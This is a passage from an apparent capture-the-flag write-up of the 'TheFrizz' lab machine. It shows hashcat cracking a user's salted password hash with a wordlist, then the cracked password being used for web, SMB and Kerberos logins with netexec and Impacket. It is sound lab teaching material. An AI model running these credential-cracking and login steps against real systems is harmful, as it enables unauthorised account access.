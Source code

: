 ```console
$ hashcat '067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489' $ROCKYOU -m 1420

067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489:Jenni_Luvs_Magic23
```

We were able to crack the password of Fiona Frizzle. The password allows us to login to the Gibbon backend.

![](/assets/images/writeups/thefrizz/gibbon-backend.png)

On the message wall, Fiona is talking about a desktop management tool called WAPT so we can keep that in the back of our head. For now we can try to login using SMB or WinRM.

```console
$ nxc smb frizz.htb -u 'f.frizzle' -p 'Jenni_Luvs_Magic23' -d frizz.htb
SMB         10.129.48.142   445    10.129.48.142    [*]  x64 (name:10.129.48.142) (domain:10.129.48.142) (signing:True) (SMBv1:False)
SMB         10.129.48.142   445    10.129.48.142    [-] frizz.htb\f.frizzle:Jenni_Luvs_Magic23 STATUS_NOT_SUPPORTED
```

However, we get a `STATUS_NOT_SUPPORTED` error. Lets try to get a TGT and try again with Kerberos.

```console
$ getTGT.py frizz.htb/f.frizzle:Jenni_Luvs_Magic23
Impacket v0.13.0.dev0+20250206.100953.075f2b10 - Copyright Fortra, LLC and its affiliated companies

Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
